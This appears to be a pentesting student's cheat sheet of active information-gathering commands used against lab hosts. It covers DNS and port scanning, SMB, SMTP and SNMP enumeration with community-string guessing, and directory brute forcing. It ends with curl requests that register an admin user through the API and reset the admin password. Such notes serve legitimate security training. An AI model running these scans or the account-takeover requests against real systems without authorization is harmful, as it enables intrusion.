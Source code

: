 
# Information Gathering Active

## DNS Enumeration

### host

```bash
for ip in $(cat list.txt); do host $ip.megacorpone.com; done

for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not found"
```

### dnsenum

```bash
dnsenum megacorpone.com
```

### nslookup

```bash
nslookup -type=TXT info.megacorptwo.com 192.168.50.151
```

## Port Scanning

### nc

```bash
nc -nv -z -w 1 192.168.224.151 1-10000

nc -nv -z -w 1 -u 192.168.224.151 100-200
```

### nmap

#### host discovery

```bash
nmap -sn 192.168.50.1-254 -oG ping-sweep.txt
nmap -sn 172.16.33.0/24
grep Up ping-sweep.txt | cut -d " " -f 2

sudo nmap -p 80 --script http-title.nse  192.168.224.0/24 -oN http-title-N.txt
```

#### port scanning

```bash
sudo nmap -sS 192.168.50.149
sudo nmap -sT -sU 192.168.50.149

sudo nmap -p- 192.168.208.211
for a in $(seq 1 500 65535); do let b=$((a+499)); sleep 2; echo ---$a-$b---; sudo nmap -p $a-$b 192.168.208.211 | grep open; done
```

#### service detection

The -A option includes version detection and script scanning, making -sC and -sV unnecessary.

```bash
sudo nmap -p- -A 172.16.33.35 -oN nmap.txt
```

##### SMB

```bash
sudo nmap -p 445 192.168.239.0/24 -oG smb.txt

sudo smbclient -L 192.168.174.10 -N

cat smb.txt | grep open | cut -d " " -f 2 | while read ip; do enum4linux "$ip"; done
```

##### SMTP

```bash
sudo nmap -p 25 192.168.239.0/24 -oG smtp.txt

nc -nv 192.168.239.8 25
vrfy root
```

##### SNMP

- GN

```bash
snmpwalk -c public 192.168.228.149 -v2c NET-SNMP-EXTEND-MIB::nsExtendObjects
```

| OID | Description |
| --- | ----------- |
| 1.3.6.1.2.1.25.1.6.0   | System Processes |
| 1.3.6.1.2.1.25.4.2.1.2 | Running Programs |
| 1.3.6.1.2.1.25.4.2.1.4 | Processes Path |
| 1.3.6.1.2.1.25.2.3.1.4 | Storage Units |
| 1.3.6.1.2.1.25.6.3.1.2 | Software Name |
| 1.3.6.1.4.1.77.1.2.25  | User Accounts |
| 1.3.6.1.2.1.6.13.1.3   | TCP Local Ports |

```bash
sudo nmap -sU --open -p 161 192.168.239.0/24 -oG snmap.txt

echo public > community
echo private >> community
echo manager >> community
cat snmap.txt | grep snmp | cut -d " " -f 2 > snmap_ips
onesixtyone -c community -i snmap_ips

snmpwalk -v 2c -c public 192.168.239.151 1.3.6.1.2.1.25.4.2.1.2\n
snmpwalk -v 2c -c public -Oa 192.168.239.151 1.3.6.1.2.1.2.2.1.2\n
```

### Test-NetConnection

```powershell
Test-NetConnection -Port 445 192.168.50.151
```

### powershell

```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null
```

## Directory Brute Force

### dirsearch

```bash
dirsearch -u http:// -e php,html,txt -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

### gobuster

```bash
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
```

## API Enumeration

robots.txt and sitemap.xml

### gobuster

```bash
cat pattern
{GOBUSTER}/v1
{GOBUSTER}/v2

gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern

gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt


```

### drill down API

```bash
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register

curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}

curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```

